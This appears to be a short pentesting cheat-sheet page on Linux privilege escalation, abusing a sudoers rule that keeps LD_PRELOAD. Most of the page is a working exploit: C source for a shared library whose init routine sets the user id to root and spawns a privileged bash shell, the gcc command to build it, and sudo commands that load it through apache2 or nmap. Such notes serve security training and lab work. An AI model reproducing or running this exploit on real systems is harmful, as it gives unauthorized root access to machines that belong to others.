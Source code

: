 ```yaml
---
description: >-
  LD_PRELOAD is an environment variable in Unix like systems that allows you to
  specify a list of shared libraries that should be loaded before the standard
  system libraries when a program is executed.
---
```


# LD\_PRELOAD

By including `env_keep += LD_PRELOAD` in the `sudoers` file, you're specifying that when users execute commands with `sudo`, the `LD_PRELOAD` environment variable will be preserved from their original environment to the elevated environment - so library is loaded.&#x20;

<figure><img src="../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

### Create so library&#x20;

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}

# gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

### Escalate privilege&#x20;

```bash
sudo LD_PRELOAD=/tmp/preload.so apache2
# or
sudo LD_PRELOAD=/tmp/preload.so nmap
```
